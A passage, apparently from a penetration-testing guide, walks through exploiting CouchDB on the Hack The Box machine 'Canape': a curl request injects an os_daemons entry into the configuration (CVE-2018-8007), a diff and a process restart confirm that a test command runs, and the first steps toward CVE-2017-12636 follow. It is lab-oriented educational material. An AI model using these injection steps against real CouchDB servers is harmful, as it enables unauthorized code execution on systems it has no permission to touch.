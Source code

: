 ```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/cors/origins' -H "Accept: application/json" -H "Content-Type: application/json" -d "0xdf\n\n[os_daemons]\ntestdaemon = /usr/bin/touch /tmp/0xdf"
```

Subsequent verification shows the injected configuration in `local.ini`, contrasting it with a backup to highlight the changes:

```bash
root@canape:/home/homer/etc# diff local.ini local.ini.bk
119,124d118
< [cors]
< origins = 0xdf
< [os_daemons]
< test_daemon = /usr/bin/touch /tmp/0xdf
```

Initially, the expected file (`/tmp/0xdf`) does not exist, indicating that the injected command has not been executed yet. Further investigation reveals that processes related to CouchDB are running, including one that could potentially execute the injected command:

```bash
root@canape:/home/homer/bin# ps aux | grep couch
```

By terminating the identified CouchDB process and allowing the system to automatically restart it, the execution of the injected command is triggered, confirmed by the existence of the previously missing file:

```bash
root@canape:/home/homer/etc# kill 711
root@canape:/home/homer/etc# ls /tmp/0xdf
/tmp/0xdf
```

This exploration confirms the viability of CVE-2018-8007 exploitation under specific conditions, notably the requirement for writable access to the `local.ini` file. The provided code examples and procedural steps offer a clear guide for replicating the exploit in a controlled environment.

For more details on CVE-2018-8007, refer to the advisory by mdsec: [CVE-2018-8007](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/).

### **Exploring CVE-2017-12636 with Write Permissions on local.ini**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

A vulnerability known as CVE-2017-12636 was explored, which enables code execution via the CouchDB process, although specific configurations may prevent its exploitation. Despite numerous Proof of Concept (POC) references available online, adjustments are necessary to exploit the vulnerability on CouchDB version 2, differing from the commonly targeted version 1.x. The initial steps involve verifying the CouchDB version and confirming the absence of the expected query servers path:

```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```
